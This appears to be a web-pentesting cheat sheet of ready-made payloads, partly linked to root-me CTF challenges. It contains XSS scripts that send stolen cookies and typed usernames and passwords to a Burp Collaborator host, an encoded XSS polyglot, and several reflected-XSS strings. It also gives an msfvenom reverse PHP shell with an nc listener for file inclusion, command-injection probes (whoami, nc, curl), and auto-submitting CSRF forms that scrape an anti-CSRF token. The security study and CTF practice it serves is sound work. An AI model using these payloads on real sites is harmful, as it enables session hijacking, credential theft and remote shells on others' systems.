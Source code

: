# XSS
### XSS Hunter
`
https://xsshunter.com/
`
### XSS Polyglot (decode to get actual payload)
`
amFWYXNDcmlwdDovKi0vKmAvKlxgLyonLyoiLyoqLygvKiAqL29uZXJyb3I9YWxlcnQoJ1RITScpICkvLyUwRCUwQSUwZCUwYS8vPC9zdFlsZS88L3RpdExlLzwvdGVYdGFyRWEvPC9zY1JpcHQvLS0hPlx4M2NzVmcvPHNWZy9vTmxvQWQ9YWxlcnQoJ1RITScpLy8+XHgzZQ==
`
### Stored XSS
#### Steal cookie
`<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>`

#### Capture other users information
`<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">`

### Reflected XSS
#### Reflected XSS into attribute with angle brackets HTML-encoded

`"onmouseover="alert(1)`

#### Reflected DOM XSS

`\"-alert(1)}//`

#### Reflected XSS into HTML context with most tags and attributes blocked

`<$tag$ $attribute$> Using Burp Suite Intruder`

#### Reflected XSS into a JavaScript string with single quote and backslash escaped

`</script><script>alert(1)</script>`

#### Reflected XSS with some SVG markup allowed

`<svg><animatetransform onbegin=alert(1)>`

#### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

`\'-alert(1)//`

# RFI
### Shell generation
`msfvenom -p php/reverse_php lport=4444 lhost=<your ip > /path/to/shell`

### Start listen on port
`cd /path/to/shell`

`sudo python3 -m http.server`

`nc -lvp 4444`                 


# Command Injection
Use one of the following commands to test command injection. Or you can use `Burp Suite Intruder` with this [payload](https://github.com/payloadbox/command-injection-payload-list).
### Blind
`ping`

`>` forcing some output && `cat`

`curl` great way

### Verbose
#### Linux
`whoami` || `ls` || `ping` || `sleep` ||  `nc`

#### Windows
`whoami` || `dir` || `ping` || `timeout`

### CSRF 
#### Simple payload
Access [this challenge](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
```
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="ad" />
      <input type="hidden" name="status" value="on" />
      <input type="submit" value="Submit request" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```

#### Token Bypass
Sample payload for bypassing CSRF Token. Access [this challenge](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)

```
<form action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
                <input id="username" type="text" name="username" value="1337">
                <input id="status" type="checkbox" name="status" checked >
                <input id="token" type="hidden" name="token" value="" />
                <button type="submit">Submit</button>
</form>
<script>

                xhttp = new XMLHttpRequest();
                xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile", false);
                xhttp.send();

                // extraction du token
                token_admin = (xhttp.responseText.match(/[abcdef0123456789]{32}/));

                // insertion du token dans notre formulaire
                 document.getElementById('token').setAttribute('value', token_admin)

                // envoi du formulaire
                document.csrf_form.submit();
</script>
```
